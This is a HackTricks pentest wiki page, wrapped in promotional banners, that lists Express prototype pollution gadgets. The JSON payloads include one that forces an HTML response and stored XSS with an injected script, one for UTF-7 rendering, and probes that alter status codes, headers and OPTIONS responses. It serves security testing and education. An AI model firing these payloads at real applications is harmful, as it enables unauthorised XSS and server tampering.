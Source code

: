 # Express Prototype Pollution Gadgets

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## WhiteIntel

<figure><img src=".gitbook/assets/image (1224).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) is a **dark-web** fueled search engine that offers **free** functionalities to check if a company or its customers have been **compromised** by **stealer malwares**.

Their primary goal of WhiteIntel is to combat account takeovers and ransomware attacks resulting from information-stealing malware.

You can check their website and try their engine for **free** at:

{% embed url="https://whiteintel.io" %}

---

## Serve XSS responses

**For further details [take a look to the original reserach](https://portswigger.net/research/server-side-prototype-pollution)**

### Change JSON content-type to HTML

In an Express app using a **JSON content type response** and reflecting a JSON:

```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
    _.merge({}, req.body);
   res.send(req.body);
});
```

In these cases XSS isn't normally possible with a JSON content type. However, with prototype pollution we can **confuse Express to serve up an HTML response.** This vulnerability relies on the application using **`res.send(obj)`** and using the body parser with the application/json content type.

```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```

By **polluting** **`body`** and **`_body`** properties, it's possible to cause **Express to serve up the HTML content type** and reflect the `_body` property, resulting in stored XSS.

### Render UTF7

It's possible to make express **render UTF-7 content with**:

```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```

## Safe Scanning Techinques

### JSON spaces

The following PP will make attributes inside a JSON to have an extra space which won't break the functionality:

```json
{"__proto__":{"json spaces": " "}}
```

Then a reflected JSON will looks like:

```json
{"foo":  "bar"} -- Note the extra space
```

### Exposed Headers

The following PP gadget will make the server send back the HTTP header: **`Access-Control-Expose_headers: foo`**

```json
{"__proto__":{"exposedHeaders":["foo"]}}
```

It requires the **CORS module to be installed**

### **OPTIONS Method**

With the following payload, it's possible to **hide a method from an OPTIONS response**:

```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```

### **Status**

It's possible to change the **returned status code** using the following PP payload:

```json
{"__proto__":{"status":510}}
```

### Error

When you assign to a prototype with a primitive such as a string, it produces a **no-op operation since the prototype has to be an object**. If you attempt to assign a prototype object to the `Object.prototype` itself, this will **throw an exception**. We can use these two behaviours to **detect if prototype pollution was successful**:

```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```

### Reflected Value

When an application includes an object in its response, creating an attribute with an **unusual name alongside `__proto__`** can be insightful. Specifically, if **only the unusual attribute is returned** in the response, this could indicate the application's vulnerability:

```json
{"unusualName":"value","__proto__":"test"}
```

Moreover, in scenarios where a library like Lodash is employed, setting a property both via prototype pollution (PP) and directly inside the object offers another diagnostic approach. If such a property is omitted from the response, it suggests that Lodash is verifying the existence of the property in the target object before merging:

```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```

## Misc

### Allow Dots

There is an option in Express that allows you to **create objects from query string parameters**.\
You could definitely use it in a bug **chain** to exploit a **prototype pollution vulnerability**.

```json
{"__proto__":{"allowDots":true}}
```

**`?foo.bar=baz` create an object in Node.**

## References

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


## WhiteIntel

<figure><img src=".gitbook/assets/image (1224).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) is a **dark-web** fueled search engine that offers **free** functionalities to check if a company or its customers have been **compromised** by **stealer malwares**.

Their primary goal of WhiteIntel is to combat account takeovers and ransomware attacks resulting from information-stealing malware.

You can check their website and try their engine for **free** at:

{% embed url="https://whiteintel.io" %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>